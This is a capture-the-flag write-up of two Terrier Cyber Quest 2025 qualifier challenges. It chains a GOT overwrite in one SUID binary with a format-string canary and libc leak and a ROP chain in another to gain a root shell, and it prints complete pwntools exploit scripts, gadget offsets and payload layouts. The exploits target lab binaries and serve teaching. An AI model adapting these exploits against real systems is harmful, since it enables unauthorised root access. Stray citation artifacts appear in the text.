# Indian Army Terrier Cyber Quest 2025
# Qualifier Round — Final Two Challenges Detailed Writeup

> This writeup documents the exploitation process for the final two qualifier challenges from Indian Army Terrier Cyber Quest 2025. The challenge involved a chained privilege escalation path:
>
> leaf → stem → root
>
> The chain required exploiting two SUID binaries:
>
> - `/usr/bin/challenge`
> - `/usr/bin/final`
>
> Techniques used:
>
> - SUID Enumeration
> - Static Analysis
> - Dynamic Analysis
> - Logic Vulnerability Exploitation
> - GOT Overwrite
> - Ret2Win
> - Format String Vulnerability
> - Stack Canary Leak
> - Ret2Libc
> - ROP Chain Construction

---

# Table of Contents

1. [Challenge 1 — Leaf → Stem](#challenge-1--leaf--stem)
   - [Enumeration](#1-enumeration)
   - [Binary Analysis](#2-binary-analysis)
   - [Reverse Engineering](#3-reverse-engineering)
   - [Password Logic Analysis](#password-logic-analysis)
   - [Logic Vulnerability](#logic-vulnerability)
   - [Exploit Development](#4-exploit-development)
   - [Final Exploit](#final-exploit)
   - [Flag](#flag)

2. [Challenge 2 — Stem → Root](#challenge-2--stem--root)
   - [Enumeration](#1-enumeration-1)
   - [Binary Analysis](#2-binary-analysis-1)
   - [Reverse Engineering](#reverse-engineering)
   - [Stack Leak](#stack-leak)
   - [Buffer Overflow Discovery](#buffer-overflow-discovery)
   - [Instruction Needed to Set Register Values](#instruction-needed-to-set-register-values)
   - [Payload Crafting](#payload-crafting)
   - [Full Exploit](#full-exploit)
   - [Flag](#flag-1)

3. [Key Learning Points](#key-learning-points)

---

# Challenge 1 — Leaf → Stem

Goal:

```text
leaf → stem
```

Target:

```bash
/usr/bin/challenge
```

---

# 1. Enumeration

The first task was identifying SUID binaries:

```bash
find / -type f -perm -4000 2>/dev/null
```

### Screenshot

<p align="center">

</p>

Result:

```bash
/usr/bin/challenge
/usr/bin/final
```

Two unusual binaries appeared.

Since the objective was escalation from leaf → stem, focus shifted toward:

```bash
/usr/bin/challenge
```

Methodology:

1. Binary Enumeration
2. Reverse Engineering
3. Exploit Development

---

# 2. Binary Analysis

Basic analysis:

```bash
file /usr/bin/challenge
ldd /usr/bin/challenge
```

### Screenshot

<p align="center">

</p>

Recovered:

| Property | Value |
|---|---|
| Architecture | 64 bit |
| Dynamically Linked | Yes |
| Stripped | No |
| Interpreter | /lib64/ld-linux-x86-64.so.2 |
| libc | libc.so.6 |

---

## Security Mitigations

```bash
checksec challenge
```

### Screenshot

<p align="center">

</p>

| Protection | Status |
|---|---|
| RELRO | Partial |
| Canary | Enabled |
| NX | Enabled |
| PIE | Disabled |
| SHSTK | Enabled |
| IBT | Enabled |

Observation:

Advantages:

- No PIE
- Partial RELRO
- Symbols available

Disadvantages:

- Canary enabled
- NX enabled

Partial RELRO immediately suggested possible GOT overwriting opportunities. :contentReference[oaicite:2]{index=2}

---

# 3. Reverse Engineering

Program flow:

```text
username input
      ↓
users[]
      ↓
password_check()
      ↓
modify users
```

---

### Username Validation

Recovered code:

```c
for(int i=0;i<3;i++){

    if(!strcmp(
        input,
        users[i]
    )){

        password_check();

    }

}
```

### Screenshot

<p align="center">

</p>

---

## Recovering users[] Array

From the .data section:

### Screenshot

<p align="center">

</p>

Recovered values:

```c
users[]={
"john",
"ubuntu",
"hello"
}
```

These values are stored statically within the binary. :contentReference[oaicite:3]{index=3}

---

# Password Logic Analysis

Inside:

```c
password_check()
```

### Screenshot

<p align="center">

</p>

Rules:

```text
length=10
allowed:
a-z
A-Z
0-9
```

Each character receives a floating point value:

```text
a→0.01
b→0.02

...

9→0.62
```

Algorithm:

```text
sum(values)

×100

mod25
```

Example:

```text
abc

0.01+0.02+0.03

0.06

6 %25 !=0
```

Password invalid.

Using Number Theory:

Recovered password:

```text
ABJZz76CjV
```

:contentReference[oaicite:4]{index=4}

---

# Logic Vulnerability

After authentication:

```text
1 → modify user
2 → exit
```

The application requests:

```text
Enter index:
```

No validation exists.

### Screenshot

<p align="center">

</p>

Vulnerable logic:

```c
scanf("%d",&index)

users[index]=input
```

This enabled arbitrary memory overwrite. :contentReference[oaicite:5]{index=5}

---

# 4. Exploit Development

Goal:

Overwrite:

```text
scanf() GOT
```

with:

```text
win()
```

Technique:

```text
Ret2Win
```

---

Addresses:

```python
win_addr=0x401296

user_arr=0x404080

scanf_got=0x404050

index=(scanf_got-user_arr)//20
```

### Screenshot

<p align="center">

</p>

win():

```c
execve(
"/bin/bash",
"-p",
NULL
)
```

:contentReference[oaicite:6]{index=6}

---

# Final Exploit

```python
from pwn import *
import time

user = 'ubuntu'
password = 'ABJZz76CjV'
win_addr = 0x0401296                        # win() address
user_arr = 0x0404080                        # Predefined users[] array address()
scanf_got = 0x000000000404050               # scanf() address in GOT table

index = (scanf_got - user_arr)//20          # Calculating index value to overwrite GOT table

elf = context.binary = ELF('pwn_challenges/challenge')
io  = process()
payload = cyclic(12) + p64(win_addr)        # FINAL payload

def login():
   io.recvuntil(b'Enter your username:\n')
   io.sendline(user.encode())
   io.recvuntil(b'Enter password:\n')
   io.sendline(password.encode())          # Solved basic CRYPTO challenge area

def exploit():
   io.recvuntil(b'2.Press 2 to exit:\n')
   io.sendline('1'.encode())
   io.recvuntil(b'Enter the index value of user: \n')
   io.sendline(str(index).encode())        # Setting Index value to modify GOT table
   print("\n\n<========= Overwriting scanf() GOT address with win() ")
   io.recvuntil(b'Enter the name of user: \n')
   io.sendline(payload)                    # Payload sending scanf() address overwrite by win() address
   time.sleep(3)
   print("\n\n========PWNED========")
   cmd1 = b"python3 -c 'import os; os.setreuid(os.geteuid(), os.geteuid()); os.system(\"/bin/bash\")'\n"
   io.sendline(cmd1)                            # Getting interactive SHELL
   io.interactive()

if __name__ == "__main__":
   login()
   exploit()

```

---

# Output

<p align="center">

</p>

Flag:

```text
FLAG -> PwN_2_0wN_N0W_Y0u_ar3_5t3M
```

---

# Challenge 2 — Stem → Root

Goal:

```text
stem → root
```

Target:

```bash
/usr/bin/final
```

---

# 1. Enumeration

```bash
find / -type f -perm -4000 2>/dev/null
```

### Screenshot

<p align="center">

</p>

Recovered:

```bash
/usr/bin/final
```

---

# 2. Binary Analysis

```bash
checksec final
```

### Screenshot

<p align="center">

</p>

| Protection | Status |
|---|---|
| RELRO | Full |
| Canary | Enabled |
| NX | Enabled |
| PIE | Enabled |

Everything protected. :contentReference[oaicite:7]{index=7}

---

# Reverse Engineering

Binary stripped.

Need:

```text
__libc_start_main()
```

to recover:

```text
main()
```

### Screenshot

<p align="center">

</p>

---

Discovered:

```c
printf(buf)
```

instead of:

```c
printf("%s",buf)
```

### Screenshot

<p align="center">

</p>

Format string vulnerability identified. :contentReference[oaicite:8]{index=8}

---

# Stack Leak

Leak script:

```python
from pwn import *
import time

context.log_level = 'error'
io = context.binary = ELF('./final')

# To leak canary value and libc address we use FORMAT STRING payload upto 50th

for i in range(1,50):
   io = process()
   fmt_payload = f'%{i}$p'
   io.recvuntil(b'Enter name: ')
   io.sendline(fmt_payload.encode())
   print(f'{i} th value in stack -> ',io.recvuntil(b'--- end ---\n').split(b'\n')[1].decode())
   io.close()

```

### Screenshot

<p align="center">

</p>

Recovered:

```text
1st stack value:
libc leak

41st:
stack canary
```

Canary:

```text
0x46cf2813cc44e700
```

:contentReference[oaicite:9]{index=9}

---

# Buffer Overflow Discovery

Discovered:

```c
char buf[72]

read(
0,
buf,
256
)
```

### Screenshot

<p align="center">

</p>

Offset:

```text
72
```

:contentReference[oaicite:10]{index=10}

---


# Instruction Needed to Set Register Values

To execute the ROP chain correctly, the values of CPU registers needed to be controlled according to Linux x86_64 calling conventions.

The challenge required calling:

```c
setuid(0)

execve("/bin/sh",NULL,NULL)
```

To pass arguments into these functions we needed suitable gadgets.

---

## A. Calling setuid(0)

Function:

```c
setuid(0)
```

Number of arguments:

```text
1
```

Linux x64 convention:

```text
1st argument → RDI
```

Required gadget:

```text
POP RDI ; RET
```

ROP sequence:

```text
POP RDI
0
setuid()
```

Explanation:

```text
RDI = 0

setuid(0)
```

This prevents loss of root privilege before shell execution.

---

## B. Calling execve("/bin/sh",NULL,NULL)

Function:

```c
execve(
"/bin/sh",
NULL,
NULL
)
```

Arguments:

```text
RDI → "/bin/sh"

RSI → NULL

RDX → NULL
```

Required gadgets:

```text
POP RDI ; RET

POP RSI ; RET

POP RDX ; RET
```

---

Problem:

The binary/libc did not contain:

```text
POP RDX ; RET
```

Instead, a substitute gadget existed:

```text
POP RDX
XOR EAX,EAX
POP RBX
POP R12
POP R13
POP RBP
RET
```

### Screenshot

<p align="center">

</p>

Because this gadget modifies multiple registers simultaneously, all registers must be populated with safe values.

Registers requiring manual setup:

```text
RDX

EAX

RBX

R12

R13

RBP
```

To avoid crashes:

```text
All values = 0
```

---

# Payload Crafting

Final payload layout:

```text
72 bytes padding
+
Canary Value
+
8 bytes junk
+
POP RDI
+
0
+
setuid()
+
POP RDI
+
"/bin/sh"
+
POP RSI
+
0
+
POP RDX
+
0
+
POP EAX
+
0
+
POP RBX
+
0
+
POP R12
+
0
+
POP R13
+
0
+
POP RBP
+
0
+
RET
+
execve()
```

Visual representation:

```text
Buffer Overflow
        ↓

+----------------------+
| Padding (72 bytes)   |
+----------------------+

| Stack Canary         |
+----------------------+

| Saved RBP            |
+----------------------+

| POP RDI              |
+----------------------+

| 0                    |
+----------------------+

| setuid()             |
+----------------------+

| POP RDI              |
+----------------------+

| "/bin/sh"            |
+----------------------+

| POP RSI              |
+----------------------+

| 0                    |
+----------------------+

| POP RDX gadget       |
+----------------------+

| RDX=0                |
+----------------------+

| RBX=0                |
+----------------------+

| R12=0                |
+----------------------+

| R13=0                |
+----------------------+

| RBP=0                |
+----------------------+

| RET                  |
+----------------------+

| execve()             |
+----------------------+
```


This ROP chain first calls:

```c
setuid(0)
```

to preserve root privileges and then executes:

```c
execve("/bin/sh",NULL,NULL)
```

which returns a root shell.

---
# Full Exploit

```python
from pwn import *
import time

#context.log_level = 'debug'
io = context.binary = ELF('/usr/bin/final')
io = process()

# To leak canary value and libc address we use FORMAT STRING payload

fmt_payload = f'%{1}$p.%{41}$p'          # FORMAT STRING payload
io.recvuntil(b'Enter name: ')
io.sendline(fmt_payload.encode())
leaks = io.recvuntil(b'--- end ---\n').split(b'\n')[1]
libc = int(leaks.split(b'.')[0],16)      # libc file leak address
canary = int(leaks.split(b'.')[1],16)    # Stack Canary Value

# Calculating all essential addresses for final exploit()

libc_base = libc - 0x0204643              # /usr/bin/libc.so.6 file base address
execve = libc_base + 0x0000000000eef30   # execve() function address
bin_sh = libc_base + 0x1cb42f            # '/bin/sh' address
pop_rdi = libc_base + 0x000000000010f75b # pop rsi ; ret -> instruction address
pop_rsi = libc_base + 0x0000000000110a4d # pop rsi ; ret -> instruction address
other_registers = libc_base + 0x00000000000b503c # pop rdx ; xor eax, e ax ; pop rbx ; pop r12 ; pop r13 ; pop rbp ; ret -> instruction address
ret = libc_base + 0x000000000002882f    # ret ; instruction address
setuid = libc_base + 0x00000000010ea90  # setuid() function address

#Payload CRAFTING

payload  = cyclic(72)                   # sending 72 bytes for buffer overflow
payload += pack(canary)                 # setting canary value to stack protection bypass
payload += pack(0)                      # After passing CANARY value we need to pass junk 8 bytes

# call setuid(0)

payload += pack(pop_rdi)                # setting RDI register value with 0
payload += pack(0)                      # RDI -> 0 (to set euid value -> 0)
payload += pack(setuid)                 # call setuid() funaction

# call execve("/bin/sh", NULL, NULL)

payload += pack(pop_rdi)                # setting RDI register value with '/bin/sh'
payload += pack(bin_sh)                 # RDI -> '/bin/sh'
payload += pack(pop_rsi)                # setting RSI register value with NULL
payload += pack(0)                      # RSI -> 0
payload += pack(other_registers)        # seting RDX, RBX, R12, R13, RBP registers value with NULL or 0
payload += pack(0)                      # RDX -> 0
payload += pack(0)                      # RBX -> 0
payload += pack(0)                      # R12 -> 0
payload += pack(0)                      # R13 -> 0
payload += pack(0)                      # RBP -> 0
payload += pack(ret)                    # Calling return instruction
payload += pack(execve)                 # Calling execve() function

io.recvuntil(b'Enter name again: ')
io.sendline(payload)                    # Sending final payload
time.sleep(1)
print("\nSetting UID to 0")
time.sleep(2)                 
print('\nCALLING execve() \nSetting RDI with /bin/sh\nSetting RSI, RDX, RBX, R12, R13, RBP registers value with 0\n')
time.sleep(1)
print("\n========PWNED========")
io.interactive()                        # Getting interactive SHELL
```

---

# Output

<p align="center">

</p>

Flag:

```text
FLAG -> D4Y_0_To_zEr0_d4Y
```

---

# Key Learning Points

- SUID binaries create privilege escalation paths
- Partial RELRO enables GOT overwrite
- Format strings disclose sensitive memory
- Stack canaries can be leaked
- PIE becomes ineffective after disclosure
- Ret2Win and Ret2Libc remain effective attack primitives
- ROP chains bypass modern mitigations

---
# End